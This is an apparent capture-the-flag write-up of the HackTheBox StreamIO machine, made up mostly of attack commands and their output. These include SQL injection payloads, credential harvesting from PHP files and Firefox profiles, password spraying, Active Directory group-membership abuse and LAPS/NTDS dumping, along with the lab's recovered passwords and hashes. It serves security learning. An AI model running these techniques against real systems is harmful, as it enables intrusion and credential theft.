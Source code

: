 ```yaml
---
title: HackTheBox-StreamIO
date: 2024-12-23 09:42:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [MSSQL, Add-Domain-Group-Member, firefox, LAPS]     # TAG names should always be lowercase
---
```


## WebServerSQLi

    abdef' union select 1,name,3,4,5,6 FROM master..sysdatabases;-- -

    abdef' union select 1,name,3,4,5,6 FROM master..sysdatabases;-- -

    abdef' union select 1, STRING_AGG(CONCAT(table_name, ',',column_name), ', '),3,4,5,6 FROM information_schema.columns;-- -

    movies,id, movies,imdb, movies,metascore, movies,movie, movies,votes, movies,year, users,id, users,is_staff, users,password, users,username

    abdef' union select 1, STRING_AGG(CONCAT(username, ' ',password), '\n'),3,4,5,6 FROM users;-- -

found creds

yoshihide : 66boysandgirls..

## found injectable 

    ➜  stream ffuf -u "https://streamio.htb/admin/?FUZZ=" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=m9uqrk5vlt9nqibfslm9srekcr" -fs 1678


    https://streamio.htb/admin/?debug=

## grab mssql creds

    PS C:\inetpub\streamio.htb> dir -recurse *.php | select-string -pattern "database"

    admin\index.php:9:$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
    login.php:46:$connection = array("Database"=>"STREAMIO" , "UID" => "db_user", "PWD" => 'B1@hB1@hB1@h');
    register.php:81:    $connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');

## Manual-Mssql-Enum

    PS C:\inetpub\streamio.htb> sqlcmd -H localhost -U db_admin -P 'B1@hx31234567890' -Q 'select name from master.dbo.sysdatabases'
    name                                                                                                                            
    --------------------------------------------------------------------------------------------------------------------------------
    master                                                                                                                          
    tempdb                                                                                                                          
    model                                                                                                                           
    msdb                                                                                                                            
    STREAMIO                                                                                                                        
    streamio_backup  

    PS C:\inetpub\streamio.htb> sqlcmd -H localhost -U db_admin -P 'B1@hx31234567890' -Q 'select table_name from streamio_backup.information_schema.tables'
    table_name                                                                                                                      
    --------------------------------------------------------------------------------------------------------------------------------
    movies                                                                                                                          
    users

    PS C:\inetpub\streamio.htb> sqlcmd -H localhost -U db_admin -P 'B1@hx31234567890' -Q 'USE streamio_backup; select * from users'
    Changed database context to 'streamio_backup'.
    id          username                                           password                                          
    ----------- -------------------------------------------------- --------------------------------------------------
            1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a                  
            2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332                  
            3 James                                              c660060492d9edcaa8332d89c99c9239                  
            4 Theodore                                           925e5408ecb67aea449373d668b7359e                  
            5 Samantha                                           083ffae904143c4796e464dac33c1f7d                  
            6 Lauren                                             08344b85b329d7efd611b7a7743e8a09                  
            7 William                                            d62be0dc82071bccc1322d64ec5b6c51                  
            8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5                  

    (8 rows affected)
    PS C:\inetpub\streamio.htb> 

creds:

nikk37 : get_dem_girls2@yahoo.com

## firefox-pass-dec

https://github.com/lclevy/firepwd

    

    decrypting login/password pairs
    https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
    https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
    https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
    https://slack.streamio.htb:b'JDgodd',b'password@12'

## password-spray

JDgodd:JDg0dd1s@d0p3cr3@t0r

## Add-Domain-Group-Member

    $pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

    $cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $pass)

    Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"

    Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "streamio\JDgodd"

## LAPS

    ➜  stream nxc smb streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds
    [!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
    SMB         10.10.11.158    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.158    445    DC               [-] DC\administrator:iJ4hbv!WEZ0a&m STATUS_LOGON_FAILURE


Video walkthrough
[WATCH!](https://youtu.be/cb7Q8rNTBCI)